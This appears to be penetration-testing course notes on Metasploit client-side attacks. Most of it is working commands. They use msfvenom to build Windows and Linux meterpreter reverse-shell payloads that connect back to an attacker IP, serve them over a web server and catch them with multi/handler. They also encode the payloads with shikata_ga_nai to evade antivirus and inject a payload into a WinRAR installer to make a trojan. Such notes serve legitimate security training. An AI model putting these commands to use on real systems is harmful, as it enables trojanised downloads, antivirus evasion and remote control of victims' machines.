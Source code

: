 # Client-Side Attacks

## [Client-Side Attacks](https://www.offsec.com/metasploit-unleashed/client-side-attacks/) with MSF <a href="#client-side-attacks-with-msf" id="client-side-attacks-with-msf"></a>

A **client-side attack** is a security breach that happens on the client side.

* Social engineering techniques take advantage of human vulnerabilities
* Require user-interaction to open malicious documents or portable executables (**`PEs`**)
* The payload is stored on the client's system
* Attackers have to pay attention to Anti Virus detection

> ❗ _**Advanced modern antivirus solutions detects and blocks this type of payloads very easily.**_

### [Msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) Payloads <a href="#msfvenom-payloads" id="msfvenom-payloads"></a>

> [**`msfvenom`**](https://www.kali.org/tools/metasploit-framework/#msfvenom) - a Metasploit standalone payload generator and encoder
>
> * **`e.g.`** - generate a malicious meterpreter payload, transfer it to a client target; once executed it will connect back to the payload handler and provides with remote access

* List available payloads

```bash
msfvenom --list payloads
```

* When generating a payload the exact name of the payload must be specified
  * target operating system
  * target O.S. architecture (x64, x86 ...)
  * payload type
  * protocol used to connect back (depends on requirements)

<figure><img src="../../../../.gitbook/assets/image (206).png" alt=""><figcaption></figcaption></figure>

**`e.g.`** of **Staged payload**

* `windows/x64/meterpreter/reverse_tcp`

**`e.g.`** of **Non-Staged payload**

* `windows/x64/meterpreter_reverse_http`

<figure><img src="../../../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

### Windows Payload <a href="#automation-with-resource-scripts" id="automation-with-resource-scripts"></a>

* Generate a Windows payload with `msfvenom`

**32bit payload:**

```bash
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -f exe > ./Desktop/Windows_Payloads/payloadx86.exe 
```

**64bit payload:**

```bash
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -f exe > ./Desktop/Windows_Payloads/payloadx64.exe
```

<figure><img src="../../../../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>

* List the output formats available

```bash
msfvenom --list formats
```

<figure><img src="../../../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>

### Linux Payload

* Generate a Linux payload with `msfvenom`

**32bit payload:**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -f elf > ./Desktop/Linux_Payloads/payloadx86 
```

**64bit payload:**

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -f elf > ./Desktop/Linux_Payloads/payloadx64
```

* 📌 _Platform and architecture are auto selected if not specified, based on the selected payload_

<figure><img src="../../../../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

The transferring method onto the target system depends on the type of the social engineering technique.

* **`e.g.`** A simple web server can be set up on the attacker system to serve the payload files and a handler to receive the connection back from the target system

```bash
cd Desktop/Windows_Payloads
python3 -m http.server 8080
```

* To deal with a `meterpreter` payload, an appropriate listener is necessary to handle the reverse connection, the `multi/handler` Metasploit module in this case

```bash
msfconsole -q
msf6 > use multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.42.132
msf6 > set LPORT 1234
msf6 > run
```

<figure><img src="../../../../.gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>

Same example with the `linux/x86/meterpreter/reverse_tcp` Linux payload executed on the Kali VM.

```bash
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > run
```

<figure><img src="../../../../.gitbook/assets/image (214).png" alt=""><figcaption></figcaption></figure>

## Encoding Payloads <a href="#encoding-payloads" id="encoding-payloads"></a>

Signature based Antivirus solutions can detect malicious files or executables. Older AV solutions can be evaded by **encoding** the payloads.

* ❗ _This kind of attack vector is outdated and hardly used today_.
* May work on legacy old O.S. like Windows 7 or older.

🗒️ Payload **Encoding** involves changing the payload shellcode _with the aim of changing the payload signature_.

* [Encoding will not always avoid detection](https://docs.rapid7.com/metasploit/encoded-payloads-bypassing-anti-virus)

🗒️ **Shellcode** is the code typically used as a _payload_ for exploitation, that provides with a remote _command shell_ on the target system.

```bash
msfvenom --list encoders
```

<figure><img src="../../../../.gitbook/assets/image (215).png" alt=""><figcaption></figcaption></figure>

* Excellent encoders are **`cmd/powershell_base64`** and **`x86/shikata_ga_nai`**

### **Windows Payload**

* Generate a Win x86 payload and encode it with `shikata_ga_nai`:

```bash
msfvenom -p  windows/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86
```

<figure><img src="../../../../.gitbook/assets/image (216).png" alt=""><figcaption></figcaption></figure>

* The payload can be encoded as often as desired by increasing the number of iterations.
* The more iterations, the better chances to bypass an Antivirus. Use **`-i`** option.

```bash
msfvenom -p  windows/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86
```

<figure><img src="../../../../.gitbook/assets/image (217).png" alt=""><figcaption></figcaption></figure>

### **Linux Payload**

```bash
msfvenom -p  linux/x86/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > ~/Desktop/Linux_Payloads/encodedx86
```

<figure><img src="../../../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

* Test each of the above generated payloads, like before

```bash
cd ~/Desktop/Windows_Payload
sudo python -m http.server 80
msfconsole -q

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.42.132
set LPORT 1234
run
```

<figure><img src="../../../../.gitbook/assets/image (219).png" alt=""><figcaption></figcaption></figure>

> 📌 Modern antivirus detects and blocks the encoded payload as soon as the download is started:

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-0a77cc42fa547ba68f55942bb166da905d8fe024%252Fimage-20230415214414552.png%3Falt%3Dmedia&#x26;width=300&#x26;dpr=4&#x26;quality=100&#x26;sign=7f60652e&#x26;sv=1" alt=""><figcaption></figcaption></figure>

## Injecting Payloads into PEs <a href="#injecting-payloads-into-pes" id="injecting-payloads-into-pes"></a>

🗒️ [Windows **Portable Executable**](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit) (**PE**) _is a file format for executables, object code, DLLs and others, used in 32-bit and 64-bit Windows O.S._

* Download a portable executable, **`e.g.`** [WinRAR](https://www.win-rar.com/download.html)
* Payloads can be injected into PEs with `msfvenom` with the **`-x`** and **`-k`** options

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -e x86/shikata_ga_nai -i 10 -x winrar-x32-701.exe -f exe > ~/Desktop/Windows_Payloads/winrar.exe
```

<figure><img src="../../../../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>

* Transfer and run the `winrar.exe` file to the target O.S.
* File description is kept, but not its functionality.
* Proceed with the Post Exploitation module to migrate the process into another one, in the `meterpreter` session

```bash
run post/windows/manage/migrate
```

## Automation with [Resource Scripts](https://www.offsec.com/metasploit-unleashed/writing-meterpreter-scripts/) <a href="#automation-with-resource-scripts" id="automation-with-resource-scripts"></a>

Repetitive tasks and commands can be automated using **MSF resource scripts** (same as batch scripts).
